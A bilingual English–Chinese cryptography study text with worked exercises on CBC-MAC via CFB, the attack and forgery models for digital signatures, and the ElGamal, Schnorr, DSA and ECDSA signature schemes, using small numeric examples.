E17. (Problem 20.15, Stallings & Brown) The Data Authentication Algorithm is DES in cipher block chaining (CBC) mode with initialization vector zero. The data are split into 64-bit blocks \(P_1,\dots,P_N\) (the last padded on the right with zeros), the ciphertext blocks are \(C_j=E(K,[P_j\oplus C_{j-1}])\) with \(C_0=0\), and the MAC is \(C_N\) or its leftmost \(M\) bits (\(16\le M\le64\)). Show that the same result can be produced using the cipher feedback (CFB) mode.E17.（Stallings & Brown 习题 20.15）数据认证算法是以零初始向量运行密码块链接（CBC）模式的 DES。数据被切成 64 比特的块 \(P_1,\dots,P_N\)（最后一块在右侧补零），密文块为 \(C_j=E(K,[P_j\oplus C_{j-1}])\)，其中 \(C_0=0\)，而 MAC 为 \(C_N\) 或其最左边的 \(M\) 比特（\(16\le M\le64\)）。证明使用密码反馈（CFB）模式可以得到相同的结果。
Answer
Write \(O_j\) for the CBC values: \(O_1=E(K,P_1)\) and \(O_j=E(K,[P_j\oplus O_{j-1}])\), so the MAC is \(O_N\).记 \(O_j\) 为 CBC 的各值：\(O_1=E(K,P_1)\) 与 \(O_j=E(K,[P_j\oplus O_{j-1}])\)，因此 MAC 为 \(O_N\)。
Use 64-bit CFB, where \(C_j'=Q_j\oplus E(K,C_{j-1}')\) and \(C_0'\) is the IV, with使用 64 位 CFB，其中 \(C_j'=Q_j\oplus E(K,C_{j-1}')\) 和 \(C_0'\) 为 IV，并且
- IV \(=P_1\),
- plaintext sequence \(Q_1,\dots,Q_N=P_2,\dots,P_N,\,0^{64}\) (the data shifted by one block, and an extra all-zero block at the end).明文序列 \(Q_1,\dots,Q_N=P_2,\dots,P_N,\,0^{64}\)（数据向后移一个块，并在末尾附加一个全零块）。
Claim: \(C_j'=P_{j+1}\oplus O_j\) for \(j=1,\dots,N-1\) and \(C_N'=O_N\).断言：对 \(j=1,\dots,N-1\) 和 \(C_N'=O_N\)，有 \(C_j'=P_{j+1}\oplus O_j\)。
- \(j=1\): \(C_1'=P_2\oplus E(K,P_1)=P_2\oplus O_1\).
- Step: if \(C_j'=P_{j+1}\oplus O_j\), then \(E(K,C_j')=E(K,[P_{j+1}\oplus O_j])=O_{j+1}\), so \(C_{j+1}'=P_{j+2}\oplus O_{j+1}\) (for \(j+1\le N-1\)).归纳步骤：若 \(C_j'=P_{j+1}\oplus O_j\)，则 \(E(K,C_j')=E(K,[P_{j+1}\oplus O_j])=O_{j+1}\)，因此 \(C_{j+1}'=P_{j+2}\oplus O_{j+1}\)（对 \(j+1\le N-1\)）。
- Last block: \(C_N'=0\oplus E(K,C_{N-1}')=E(K,[P_N\oplus O_{N-1}])=O_N\).最后一块：\(C_N'=0\oplus E(K,C_{N-1}')=E(K,[P_N\oplus O_{N-1}])=O_N\)。
The last CFB ciphertext block is therefore exactly the CBC-MAC \(O_N\); its leftmost \(M\) bits give the shorter MAC. (A check with a toy 8-bit cipher agrees.)因此，最后一个 CFB 密文块恰好就是 CBC-MAC \(O_N\)；取其最左边的 \(M\) 比特即得到较短的 MAC。（用一个玩具式 8 比特密码检验也一致。）
思路：用 \(P_1\) 作 IV，明文改为 \(P_2,\dots,P_N,0\)，CFB 的最后一个密文块就等于 CBC 的最后一块。
Chapter 13Digital Signatures and Public-Key Certificates数字签名与公钥证书Reading: Stallings (Crypto) Ch. 13; Stallings & Brown 2.4
Digital Signatures: Model, Attacks and Requirements ★★★数字签名：模型、攻击与安全要求
Goal. Say what a digital signature gives and what it does not. Explain why a MAC cannot settle a dispute. Order the attacks and forgeries on a signature scheme, and state the order of signing and encrypting.目标。 说明数字签名提供什么、不提供什么。解释为什么 MAC 无法解决争议。给签名方案上的攻击和伪造排序，并说明签名与加密的先后顺序。
Step 1: the signature model第 1 步：签名模型
In words: a digital signature = the hash of the message, transformed with the signer's private key, and checked by anybody with the public key.用文字表述：数字签名 = 对消息的哈希值用签名者的私钥做变换，任何持有公钥的人都可以检查。
A digital signature（数字签名）is a cryptographic transformation of data that gives origin authentication, data integrity and signatory non-repudiation（不可否认性）. Hashes are explained in Section 11.1. All schemes of this chapter share one structure.数字签名是对数据的一种密码变换，它提供来源认证、数据完整性，以及签名者的不可否认性。哈希函数见第 11.1 节。本章所有方案共享同一种结构。


The signature gives authentication of the source and integrity. It gives no confidentiality: \(M\) travels in the clear, and anyone who has the public key can read a message that was transformed with the private key.签名提供来源认证和完整性，但不提供机密性：\(M\) 以明文传送，任何持有公钥的人都能读到用私钥变换过的消息。
Step 2: why a MAC is not enough第 2 步：为什么 MAC 不够
With a MAC both sides share the key (Section 12.2). Two disputes follow.使用 MAC 时双方共享同一把密钥（见第 12.2 节）。由此会产生两种争议。
- Mary can forge a message and claim that it came from John.Mary 可以伪造一条消息，并声称它来自 John。
- John can deny a genuine message, because Mary could have created it.John 可以否认一条真实的消息，因为这条消息 Mary 本来也可能生成。
A MAC protects against third parties, not against the two parties themselves. A signature uses a key that only the signer holds, so a judge can verify it with the public key.MAC 只能防范第三方，无法防范双方自身。签名使用的密钥只有签名者持有，所以法官可以用公钥来验证。
A signature must therefore have four properties.因此，签名必须具备四个性质。
- It verifies the author and the date and time of the signature.它要能验证作者，以及签名的日期和时间。
- It authenticates the contents at the time of signing.它要能认证签名时刻的内容。
- Third parties can verify it, so it settles disputes.第三方可以验证它，因此能够解决争议。
- It includes the authentication function.它包含认证功能。
The requirements on the scheme are these. The signature depends on the message and on secret information of the sender. It is easy to produce, to verify and to store. It is computationally infeasible to forge, either as a new message for an old signature or as a fake signature for a given message.对方案的要求如下。签名既依赖于消息，也依赖于发送者的秘密信息。签名要容易产生、容易验证、容易存储。伪造在计算上不可行，无论是为旧签名配一条新消息，还是为给定消息伪造一个假签名。
Step 3: attacks and forgeries第 3 步：攻击与伪造
In words: the attack says what the attacker can see and ask; the forgery says what the attacker achieves.用文字表述：攻击说明攻击者能看到什么、能询问什么；伪造说明攻击者能达到什么结果。
A is the victim and C is the attacker. The attacks, from weakest to strongest:A 是受害者，C 是攻击者。攻击按从弱到强排列如下：
| Attack攻击 | What C hasC 掌握的信息 |
|---|---|
| Key-only仅密钥 | A's public key only仅有 A 的公钥 |
| Known message已知消息 | messages with their signatures消息及其签名 |
| Generic chosen message（选择消息攻击） | signatures on messages chosen before seeing A's public key对在看到 A 的公钥之前选定的消息的签名 |
| Directed chosen message定向选择消息 | the same, but chosen after seeing the public key与上相同，但消息在看到公钥之后选定 |
| Adaptive chosen message自适应选择消息 | A as an oracle: messages may depend on earlier signatures将 A 当作预言机：消息可依赖于先前的签名 |
C succeeds, with non-negligible probability, if it achieves one of these outcomes. They are listed from most to least severe.只要 C 达到下列结果之一，并且成功概率不可忽略，它就算成功。下列结果按严重程度从高到低排列。
| Outcome结果 | Meaning含义 |
|---|---|
| Total break（完全破译） | C finds A's private keyC 找到 A 的私钥 |
| Universal forgery（通用伪造） | C gets an efficient algorithm that signs any messageC 得到一个能够为任意消息签名的高效算法 |
| Selective forgery（选择性伪造） | C forges a signature on a message of C's choiceC 对自选消息伪造签名 |
| Existential forgery（存在性伪造） | a valid signature on some message not chosen by C; may be a mere nuisance对 C 未选定的某条消息的有效签名；可能仅构成干扰 |
A scheme is secure if it resists existential forgery under an adaptive chosen-message attack. That is the strongest attack with the weakest goal.如果一个方案能抵抗自适应选择消息攻击下的存在性伪造，它就是安全的。这是攻击最强、而攻击目标最弱的组合。
Step 4: direct signatures, order of signing and encrypting第 4 步：直接签名，以及签名与加密的顺序
A direct digital signature（直接数字签名）involves only the source and the destination. The destination knows the source's public key.直接数字签名只涉及源和目的两方。目的方知道源的公钥。
For confidentiality, encrypt the message and the signature with a shared secret key. Sign first, then encrypt. The recipient can then store the plaintext and the signature as evidence. A signature over the ciphertext would need the decryption key in a dispute.为了保密，用共享的秘密密钥对消息和签名一起加密。先签名，再加密。这样，接收方就可以把明文和签名作为证据保存。如果对密文签名，争议时就需要解密密钥。
Everything rests on the secrecy of the private key. The sender may deny a message by claiming that the key was lost or stolen. Two measures limit this defence: a timestamp（时间戳）in every message, and prompt reporting of compromised keys to a central authority. One threat remains: if a key is stolen at time \(T\), the thief can backdate messages up to \(T\). The certificate and the CA of Section 13.5 address this.一切都依赖私钥保密。发送者可能声称私钥丢失或被窃，从而否认消息。两项措施可以限制这种抵赖：每条消息都带时间戳，并及时向中心机构报告泄露的密钥。仍然存在一种威胁：如果密钥在时刻 \(T\) 被窃取，窃贼就可以为时间戳不晚于 \(T\) 的消息补签。第 13.5 节的证书和 CA 可以应对这一威胁。
Practice练习
Q1. (Explain) John sends Mary a message authenticated with a MAC under their shared key. (a) Describe the two disputes that can arise. (b) Explain how a digital signature removes them.Q1.（解释）John 用双方共享的密钥，通过 MAC 对发给 Mary 的消息进行认证。(a) 描述可能出现的两种争议。(b) 解释数字签名如何消除这些争议。
Answer
(a) Mary can forge a message, append a valid code computed with the shared key and claim it came from John. John can deny having sent a genuine message, because Mary could have produced it herself, so nobody can prove who created it. (b) Only John holds his private key, so Mary cannot create a signature that verifies under his public key; and a judge can verify John's signature with that public key, so John cannot deny it.(a) Mary 可以伪造一条消息，用共享密钥计算出有效的认证码附加其后，并声称消息来自 John。John 可以否认自己发送过真实的消息，因为 Mary 本人也可能生成了该消息，因此无人能证明消息由谁生成。(b) 只有 John 持有他的私钥，因此 Mary 无法生成能够用他的公钥验证通过的签名；而法官可以用该公钥验证 John 的签名，因此 John 无法否认。
Q2. (Calculation) Textbook RSA signature without a hash: public key \((n,e)=(3233,17)\), private exponent \(d=2753\), signature \(S=h^d\bmod n\). (a) Sign \(h=1234\) and verify. (b) Without knowing \(d\), an attacker picks \(S'=2024\) and sets \(h'=S'^{\,e}\bmod n\). Show that \((h',S')\) is accepted and name the forgery. (c) How does hash-then-sign prevent it?Q2.（计算）无散列的教科书式 RSA 签名：公钥为 \((n,e)=(3233,17)\)，私指数为 \(d=2753\)，签名为 \(S=h^d\bmod n\)。(a) 对 \(h=1234\) 签名并验证。(b) 攻击者在不知道 \(d\) 的情况下选取 \(S'=2024\)，并令 \(h'=S'^{\,e}\bmod n\)。证明 \((h',S')\) 会被接受，并指出这种伪造的类型。(c) 先散列再签名如何防止这种攻击？
Answer
(a) \(S=1234^{2753}\bmod3233=1512\). Verification: \(1512^{17}\bmod3233=1234=h\), so the signature is valid.(a) \(S=1234^{2753}\bmod3233=1512\)。验证：\(1512^{17}\bmod3233=1234=h\)，故签名有效。
(b) \(h'=2024^{17}\bmod3233=1414\). The verifier computes \(S'^{\,e}\bmod n=1414=h'\) and accepts. This is an existential forgery by a key-only attack: the attacker obtains a valid pair but cannot choose \(h'\). (Textbook RSA is also multiplicative, \(\text{sig}(h_1)\,\text{sig}(h_2)\equiv\text{sig}(h_1h_2) \pmod n\), which yields forgeries from known signatures.)(b) \(h'=2024^{17}\bmod3233=1414\)。验证者计算 \(S'^{\,e}\bmod n=1414=h'\) 并接受。这是仅密钥攻击下的存在性伪造：攻击者得到了一个有效的数对，但不能选择 \(h'\)。（教科书式 RSA 还是可乘的，即 \(\text{sig}(h_1)\,\text{sig}(h_2)\equiv\text{sig}(h_1h_2) \pmod n\)，这使得可由已知签名得到伪造。）
(c) The verifier compares with \(H(M)\), so the attacker would need a message \(M'\) with \(H(M')=1414\), a preimage of the hash, which is infeasible.(c) 验证者将结果与 \(H(M)\) 比较，因此攻击者需要找到满足 \(H(M')=1414\) 的消息 \(M'\)，即散列值的原像，这在计算上是不可行的。
思路：不带哈希的 RSA 签名可以“倒着造”：先选 S′，再算 h′=S′^e。
Q3. (Explain) (a) Bob wants a signed message to be confidential. In which order should he sign and encrypt, and why? (b) Later Bob claims that his private key had been stolen. Name two measures that limit this defence and one threat that remains.Q3.（解释）(a) Bob 希望已签名的消息具有机密性。他应按什么顺序签名与加密？原因是什么？(b) 之后 Bob 声称他的私钥被盗。列出两项限制这种抗辩的措施，以及一项仍然存在的威胁。
Answer
(a) Sign first, then encrypt message and signature. The recipient can then store the plaintext with its signature and show both to a third party; if the signature covered the ciphertext, the third party would also need the decryption key. (b) A timestamp in every signed message and prompt reporting of compromised keys to a central authority. The remaining threat: a thief who stole the key at time \(T\) can backdate messages stamped up to \(T\). Certificates and revocation by a CA address this (Section 13.5).(a) 先签名，再对消息和签名一起加密。这样，接收方可以保存带签名的明文，并把两者出示给第三方；如果签名覆盖的是密文，第三方还需要解密密钥。(b) 每条签名消息都带时间戳，并及时向中心机构报告泄露的密钥。剩余威胁是：在时刻 \(T\) 窃得密钥的攻击者，可以为时间戳不晚于 \(T\) 的消息补签。证书以及 CA 的吊销机制可以应对这一威胁（见第 13.5 节）。
ElGamal and Schnorr Signatures ★★ElGamal 与 Schnorr 签名
Goal. Sign and verify with ElGamal and with Schnorr by hand. Explain why the exponents are reduced modulo \(q-1\) in ElGamal, and why the per-signature random number must stay secret.目标。 用手工方式完成 ElGamal 和 Schnorr 的签名与验证。解释 ElGamal 中为什么指数要对 \(q-1\) 取模，以及为什么每次签名用的随机数必须保密。
Step 1: the ElGamal signature第 1 步：ElGamal 签名
In words: ElGamal signature = a pair \((S_1,S_2)\) in which \(S_1\) hides a fresh random number \(K\) and \(S_2\) mixes in the hash and the private key.用文字表述：ElGamal 签名 = 一对 \((S_1,S_2)\)，其中 \(S_1\) 隐藏了新的随机数 \(K\)，\(S_2\) 则混入了哈希值和私钥。
It reverses ElGamal encryption (Section 10.3): the private key signs and the public key verifies. The global elements are a prime \(q\) and a primitive root \(\alpha\) of \(q\). User A picks a private key \(X_A\) with \(1<X_A<q-1\) and publishes \(\{q,\alpha,Y_A\}\).它是 ElGamal 加密（见第 10.3 节）的反向用法：私钥签名，公钥验证。全局参数是一个素数 \(q\)，以及 \(q\) 的一个原根 \(\alpha\)。用户 A 选取私钥 \(X_A\)，满足 \(1<X_A<q-1\)，并公布 \(\{q,\alpha,Y_A\}\)。
Why it works: \(V_2=\alpha^{X_AS_1+KS_2}\). Since \(KS_2\equiv m-X_AS_1 \pmod{q-1}\), the exponent is congruent to \(m\), so \(V_2=\alpha^m=V_1\).为什么可行：\(V_2=\alpha^{X_AS_1+KS_2}\)。由于 \(KS_2\equiv m-X_AS_1 \pmod{q-1}\)，指数同余于 \(m\)，所以 \(V_2=\alpha^m=V_1\)。
Step 2: the Schnorr signature第 2 步：Schnorr 签名
In words: Schnorr signature = commit to a random number \(x\), hash the commitment together with the message, and answer with \(y\).用文字表述：Schnorr 签名 = 先对一个随机数 \(x\) 做承诺，把承诺与消息一起哈希，然后给出 \(y\) 作为应答。
Its advantage is that the expensive work does not depend on the message. It uses primes \(p\) and \(q\) with \(q\mid(p-1)\) (typically \(p\approx 2^{1024}\) and \(q\approx 2^{160}\)) and an element \(a\ne1\) with \(a^q\equiv1 \pmod p\). The triple \((a,p,q)\) is public.它的优点是，开销大的运算不依赖消息，因此可以提前完成。它使用素数 \(p\) 和 \(q\)，满足 \(q\mid(p-1)\)（通常取 \(p\approx 2^{1024}\) 和 \(q\approx 2^{160}\)），并使用满足 \(a^q\equiv1 \pmod p\) 的元素 \(a\ne1\)。三元组 \((a,p,q)\) 是公开的。
Practice练习
Q1. (Calculation) ElGamal signature with \(q=23\), \(\alpha=5\) (a primitive root of 23) and private key \(X_A=6\). (a) Find the public key. (b) Sign \(m=9\) with \(K=3\). (c) Verify the signature. (d) Why is \(K=11\) not allowed?Q1.（计算）ElGamal 签名，参数为 \(q=23\)、\(\alpha=5\)（23 的原根），私钥为 \(X_A=6\)。(a) 求公钥。(b) 用 \(K=3\) 对 \(m=9\) 签名。(c) 验证该签名。(d) 为什么不允许 \(K=11\)？
Answer
(a) \(Y_A=5^6\bmod23=8\); public key \(\{23,5,8\}\).(a) \(Y_A=5^6\bmod23=8\)；公钥为 \(\{23,5,8\}\)。
(b) \(S_1=5^3\bmod23=10\); \(K^{-1}=3^{-1}\bmod22=15\) (since \(3\cdot15=45=2\cdot22+1\)); \(S_2=15(9-6\cdot10)\bmod22=-765\bmod22=5\). Signature \((10,5)\).(b) \(S_1=5^3\bmod23=10\)；\(K^{-1}=3^{-1}\bmod22=15\)（因为 \(3\cdot15=45=2\cdot22+1\)）；\(S_2=15(9-6\cdot10)\bmod22=-765\bmod22=5\)。签名为 \((10,5)\)。
(c) \(V_1=5^9\bmod23=11\); \(V_2=8^{10}\cdot10^{5}\bmod23=3\cdot19\bmod23=11\). Equal, so the signature is valid.(c) \(V_1=5^9\bmod23=11\)；\(V_2=8^{10}\cdot10^{5}\bmod23=3\cdot19\bmod23=11\)。两者相等，因此签名有效。
(d) \(\gcd(11,22)=11\ne1\), so \(11^{-1}\bmod22\) does not exist and \(S_2\) cannot be computed.(d) \(\gcd(11,22)=11\ne1\)，因此 \(11^{-1}\bmod22\) 不存在，\(S_2\) 无法计算。
Q2. (Calculation) Schnorr signature with \(p=23\), \(q=11\), \(a=2\) (note \(2^{11}\equiv1 \pmod{23}\)) and private key \(s=3\). (a) Find the public key \(v\). (b) Sign with \(r=7\), assuming \(H(M\,\Vert\,x)=4\). (c) Verify. (d) Which value can be computed before \(M\) is known?Q2.（计算）Schnorr 签名，参数为 \(p=23\)、\(q=11\)、\(a=2\)（注意 \(2^{11}\equiv1 \pmod{23}\)），私钥为 \(s=3\)。(a) 求公钥 \(v\)。(b) 假设 \(H(M\,\Vert\,x)=4\)，用 \(r=7\) 进行签名。(c) 验证。(d) 在 \(M\) 已知之前，可以先计算哪个值？
Answer
(a) \(v=a^{-s}=8^{-1}\bmod23=3\), since \(8\cdot3=24\equiv1\).(a) \(v=a^{-s}=8^{-1}\bmod23=3\)，因为 \(8\cdot3=24\equiv1\)。
(b) \(x=2^7\bmod23=13\), \(e=4\), \(y=(7+3\cdot4)\bmod11=19\bmod11=8\). Signature \((e,y)=(4,8)\).(b) \(x=2^7\bmod23=13\)，\(e=4\)，\(y=(7+3\cdot4)\bmod11=19\bmod11=8\)。签名为 \((e,y)=(4,8)\)。
(c) \(x'=a^yv^e=2^8\cdot3^4\bmod23=3\cdot12\bmod23=13=x\), so \(H(M\,\Vert\,x')=4=e\) and the signature is valid.(c) \(x'=a^yv^e=2^8\cdot3^4\bmod23=3\cdot12\bmod23=13=x\)，因此 \(H(M\,\Vert\,x')=4=e\)，签名有效。
(d) \(x=a^r\bmod p\), the only exponentiation; it does not depend on \(M\).(d) \(x=a^r\bmod p\)，即唯一的幂运算；它不依赖于 \(M\)。
DSA and ECDSA ★★DSA 与 ECDSA
Goal. Sign and verify with DSA and ECDSA by hand, state why \(k\) must never be reused, and recover the private key when it is.目标。 用手工方式完成 DSA 和 ECDSA 的签名与验证，说明为什么 \(k\) 绝不能重复使用，并在重复使用时恢复私钥。
Step 1: DSA第 1 步：DSA
In words: DSA = a signature scheme that encrypts nothing: the signer outputs a pair \((r,s)\) from which the verifier recomputes \(r\) using only public data.用文字表述：DSA = 一种不做加密的签名方案：签名者输出一对 \((r,s)\)，验证者只用公开数据就能重新算出 \(r\)。
The Digital Signature Algorithm (DSA)（数字签名算法）is the signature scheme of the FIPS 186 standard. It builds on ElGamal and Schnorr and uses SHA. It gives signatures only: unlike RSA it cannot encrypt or exchange keys.数字签名算法（DSA）是 FIPS 186 标准中的签名方案。它以 ElGamal 和 Schnorr 为基础，并使用 SHA。它只提供签名：与 RSA 不同，它不能用于加密或密钥交换。


In the RSA approach the signature is the hash encrypted with the private key, and the receiver decrypts it. DSA does not do that. The signature function takes the hash, a fresh random \(k\), the private key and the global public key, and returns \((r,s)\).在 RSA 方式中，签名就是用私钥加密的哈希值，接收方解密它。DSA 不是这样。签名函数以哈希值、一个新的随机数 \(k\)、私钥和全局公钥为输入，输出 \((r,s)\)。
Global public key \((p,q,g)\): \(q\) is an \(N\)-bit prime and \(p\) is an \(L\)-bit prime with \(q\mid(p-1)\). A typical pair is \((L,N)=(2048,256)\). Then \(g=h^{(p-1)/q} \bmod p\) for some \(1<h<p-1\) with \(g>1\), so \(g\) has order \(q\). User keys: private \(x\) with \(0<x<q\), public \(y=g^x \bmod p\).全局公钥 \((p,q,g)\)：\(q\) 是 \(N\) 位的素数，\(p\) 是 \(L\) 位的素数，且 \(q\mid(p-1)\)。一组典型取值是 \((L,N)=(2048,256)\)。然后，对某个 \(1<h<p-1\) 有 \(g=h^{(p-1)/q} \bmod p\)，其中 \(g>1\)，所以 \(g\) 的阶为 \(q\)。用户密钥：私钥 \(x\)，满足 \(0<x<q\)；公钥 \(y=g^x \bmod p\)。
Why it works: \(s\equiv k^{-1}(H+xr)\) gives \(k\equiv s^{-1}(H+xr)=u_1+xu_2 \pmod q\). As \(g\) has order \(q\), \(g^{u_1}y^{u_2}=g^{u_1+xu_2}\equiv g^k \pmod p\), so \(v=r\). The two heavy parts, \(g^k \bmod p\) and \(k^{-1}\), do not depend on \(M\) and can be precomputed.为什么可行：由 \(s\equiv k^{-1}(H+xr)\) 得到 \(k\equiv s^{-1}(H+xr)=u_1+xu_2 \pmod q\)。由于 \(g\) 的阶为 \(q\)，所以 \(g^{u_1}y^{u_2}=g^{u_1+xu_2}\equiv g^k \pmod p\)，从而 \(v=r\)。两个开销大的部分 \(g^k \bmod p\) 和 \(k^{-1}\) 不依赖于 \(M\)，因此可以提前算好。
Step 2: never leak or reuse \(k\)第 2 步：绝不泄露或重复使用 \(k\)
In words: the signature equation has only \(x\) and \(k\) unknown, so knowing \(k\) gives \(x\).用文字表述：签名方程中只有 \(x\) 和 \(k\) 未知，所以知道 \(k\) 就能得到 \(x\)。
- If \(k\) is known: \(x=r^{-1}(sk-H(M)) \bmod q\).如果 \(k\) 已知，则 \(x=r^{-1}(sk-H(M)) \bmod q\)。
- If two messages are signed with the same \(k\), both signatures have the same \(r\). Then \(k=(H_1-H_2)(s_1-s_2)^{-1} \bmod q\), where \(H_1,H_2\) are the two hashes and \(s_1,s_2\) the two values of \(s\). Step 1 then gives \(x\).如果两条消息使用同一个 \(k\) 签名，两个签名的 \(r\) 将相同。于是 \(k=(H_1-H_2)(s_1-s_2)^{-1} \bmod q\)，其中 \(H_1,H_2\) 为两条消息的哈希值，\(s_1,s_2\) 为两个 \(s\) 的值。再由第 1 步得到 \(x\)。
- The same holds for ECDSA, ElGamal and Schnorr. Use a strong random generator or a deterministic \(k\) derived from key and message (RFC 6979).ECDSA、ElGamal 和 Schnorr 同样如此。应使用强随机数生成器，或由密钥和消息导出确定性的 \(k\)（RFC 6979）。
Step 3: ECDSA第 3 步：ECDSA
In words: ECDSA = DSA with the exponentiation \(g^k\) replaced by the elliptic-curve point \(kG\).用文字表述：ECDSA = 把 DSA 中的幂运算 \(g^k\) 换成椭圆曲线上的点 \(kG\)。
ECDSA（椭圆曲线数字签名算法）gives the same security as DSA with much shorter keys (about 256 bits against a 3072-bit prime for 128-bit security). All participants share the domain parameters: a prime, the coefficients of the curve \(y^2=x^3+ax+b\) over \(Z_q\), a base point \(G\) and its order \(n\).ECDSA（椭圆曲线数字签名算法）给出的安全性与 DSA 相同，但密钥短得多（对于 128 位安全强度，约 256 位，而 DSA 需要 3072 位素数）。所有参与者共享域参数：一个素数、曲线 \(y^2=x^3+ax+b\) 的系数（所在的域为 \(Z_q\)）、基点 \(G\) 及其阶 \(n\)。


Why it works: \(k\equiv s^{-1}(e+dr)=u_1+u_2d \pmod n\), so \(u_1G+u_2Q=(u_1+u_2d)G=kG\), whose \(x\)-coordinate modulo \(n\) is \(r\). The signature has two integers of \(\lceil\log_2 n\rceil\) bits each.为什么可行：\(k\equiv s^{-1}(e+dr)=u_1+u_2d \pmod n\)，所以 \(u_1G+u_2Q=(u_1+u_2d)G=kG\)，其 \(x\) 坐标模 \(n\) 等于 \(r\)。签名由两个各 \(\lceil\log_2 n\rceil\) 位的整数组成。
ECDSA mirrors DSA step by step:ECDSA 与 DSA 逐步对应：
| DSA | ECDSA | |
|---|---|---|
| Group群 | order-\(q\) subgroup of \(Z_p^*\) | curve points, order \(n\) |
| Generator; keys生成元；密钥 | \(g\); \(x\), \(y=g^x\) | \(G\); \(d\), \(Q=dG\) |
| Commitment承诺值 | \(g^k\bmod p\) | \(kG\) |
| \(r\) | commitment mod \(q\) | \(x\)-coordinate of \(kG\) mod \(n\) |
| Verification验证 | \(g^{u_1}y^{u_2}\) | \(u_1G+u_2Q\) |
Practice练习
Q1. (Calculation) DSA with \(p=23\), \(q=11\). (a) Find \(g\) from \(h=2\). (b) The private key is \(x=6\); find \(y\). (c) Sign a message with \(H(M)=6\) using \(k=3\). (d) Verify the signature.Q1.（计算）DSA 参数为 \(p=23\)、\(q=11\)。(a) 由 \(h=2\) 求 \(g\)。(b) 私钥为 \(x=6\)，求 \(y\)。(c) 对带有 \(H(M)=6\) 的消息使用 \(k=3\) 签名。(d) 验证该签名。
Answer
(a) \(g=h^{(p-1)/q}=2^{2}\bmod23=4\); \(g\ne1\) and \(g^{11}\equiv1\), so \(g\) has order 11.(a) \(g=h^{(p-1)/q}=2^{2}\bmod23=4\)；\(g\ne1\) 与 \(g^{11}\equiv1\)，因此 \(g\) 的阶为 11。
(b) \(y=4^6\bmod23=2\).
(c) \(g^k=4^3=64\equiv18 \pmod{23}\), so \(r=18\bmod11=7\). \(k^{-1}=3^{-1}\bmod11=4\), so \(s=4(6+6\cdot7)\bmod11=192\bmod11=5\). Signature \((7,5)\).(c) \(g^k=4^3=64\equiv18 \pmod{23}\)，因此 \(r=18\bmod11=7\)。\(k^{-1}=3^{-1}\bmod11=4\)，因此 \(s=4(6+6\cdot7)\bmod11=192\bmod11=5\)。签名为 \((7,5)\)。
